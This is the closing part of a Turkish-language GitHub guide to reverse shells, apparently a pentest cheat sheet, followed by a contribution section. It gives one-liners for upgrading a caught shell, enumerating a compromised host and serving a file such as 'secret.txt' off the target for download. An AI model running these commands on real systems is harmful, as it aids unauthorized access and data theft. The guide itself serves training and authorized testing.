 
## 6. Faydalı Tek Satırlıklar (One-Liners)

*   **Hızlı Python PTY Spawn & Stty Ayarı (Saldırgan Tarafında Alias Olarak Eklenebilir):**
    ```bash
    # ~/.bashrc veya ~/.zshrc içine eklenebilir
    # alias upgrade_shell='(stty raw -echo; fg)'
    # Kullanımı: python pty spawn sonrası Ctrl+Z, sonra 'upgrade_shell'
    ```
*   **Hedefte Hızlı Shell Bilgisi:**
    ```bash
    whoami; id; uname -a; pwd; ls -la; ip addr; cat /etc/issue; cat /etc/shells
    ```
*   **Basit HTTP Sunucusu ile Dosya İndirme (Hedefte):**
    ```bash
    # Python 3
    TARGET_FILE="secret.txt"; PORT=8000; python3 -m http.server $PORT & WPID=$!; (sleep 1; echo "wget http://$(hostname -I | awk '{print $1}'):$PORT/$TARGET_FILE"; sleep 10; kill $WPID)
    # Python 2
    TARGET_FILE="secret.txt"; PORT=8000; python -m SimpleHTTPServer $PORT & WPID=$!; (sleep 1; echo "wget http://$(hostname -I | awk '{print $1}'):$PORT/$TARGET_FILE"; sleep 10; kill $WPID)
    ```
    Bu, dosyayı sunar ve size `wget` komutunu verir, 10 saniye sonra sunucuyu kapatır.

---

## 7. Katkıda Bulunma

Bu rehberin geliştirilmesine yardımcı olmak isterseniz:
*   Hataları bildirin (GitHub Issues).
*   Yeni teknikler, araçlar veya ipuçları önerin (GitHub Issues veya Pull Request).
*   Mevcut içeriği iyileştirin, netleştirin veya örnekleri çoğaltın (Pull Request).
*   Farklı işletim sistemleri veya shell türleri için özel ipuçları ekleyin.

---
